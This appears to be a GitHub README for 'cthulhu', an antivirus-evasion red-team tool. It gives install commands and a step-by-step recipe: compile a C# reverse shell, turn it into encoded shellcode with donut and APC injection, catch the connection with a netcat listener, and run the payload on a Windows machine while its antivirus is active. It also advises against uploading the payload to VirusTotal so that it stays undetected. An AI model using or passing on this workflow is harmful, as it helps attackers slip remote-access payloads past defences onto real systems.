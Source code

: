 ![immagine](http://www.clker.com/cliparts/0/c/f/0/1194984914309460086elder_sign_nurbldoff_01r.svg.med.png)

# cthulhu

AV Evasion, Red Team tool, a FourEye fork (by Leginbo https://github.com/lengjibo) 

# Install

git clone https://github.com/foxlox/cthulhu

cd cthulhu

chmod 755 setup.sh

./setup.sh

python3 cthulhu.py
    
    
![immagine](https://user-images.githubusercontent.com/28823598/128512455-1bad09e2-9616-4333-ad37-db895705ff02.png)
  
    
![immagine](https://user-images.githubusercontent.com/28823598/128512283-4e75f989-f5fd-4e54-b954-7741fc231add.png)


# Example

1. Create a new Visual Studio C# Console Project

2. Add reverse.cs and set IP and PORT

3. Build it

4. go to your Linux box

5. $ donut compiledapp.exe -o ca.bin

6. $ python3 cthulhu.py -method apc -arch x86 -bin ca.bin -enc rot13

    => [+]shellcode created: /tmp/shellcode.exe

8. Bind the right port with netcat on your linux box and wait.

9. Copy shellcode.exe on Windows box and run it. Don't remember to start your Antivirus.

10. Don't upload your shellcode.exe on Virustotal


    *fox
    
